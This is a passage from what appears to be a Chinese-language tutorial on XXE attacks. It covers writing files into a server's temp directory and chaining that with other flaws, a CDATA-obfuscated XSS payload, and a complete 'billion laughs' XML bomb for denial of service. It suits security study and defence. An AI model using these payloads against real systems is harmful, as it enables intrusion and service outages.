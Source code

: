 需要注意的是整个过程极有可能在第二步中止，关键是操作文件的过程不能中断，这个[Github 仓库](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution)可以起到很好的帮助作用。

一旦服务器下载了您的文件，您需要通过浏览临时目录找到它的位置。由于文件路径是随机的，因此无法提前预测。

[![img](assets/1698894099-96cb63032d24c028ea31c4300c7a04bd.png)](https://storage.tttang.com/media/attachment/2022/11/14/bbbffa69-b067-478d-be81-ecdbbe7345d9.png)

在临时目录中写入文件有助于升级另一个涉及路径遍历的漏洞（例如本地文件包含、模板注入、XSLT RCE、反序列化等）。

### [XSS](#toc_xss)

```bash
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### [DoS](#toc_dos)

#### [Billion Laugh Attack](#toc_billion-laugh-attack)

a billion laughs attack 是一种 denial-of-service（DoS）攻击，它主要作用于 XML 文档解析器。它也被称为指数实体扩展攻击，是一种名副其实的 XML 炸弹。该攻击通过创建一系列递归的 XML 定义，在内存中产生上十亿的特定字符串，从而导致 DoS 攻击。

原理为：构造恶意的 XML 实体文件以耗尽服务器可用内存，因为许多 XML 解析器在解析 XML 文档时倾向于将它的整个结构保留在内存中，上亿的特定字符串占用内存达到 GB 级，使得解析器解析非常慢，并使得可用资源耗尽，从而造成拒绝服务攻击。

```bash
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
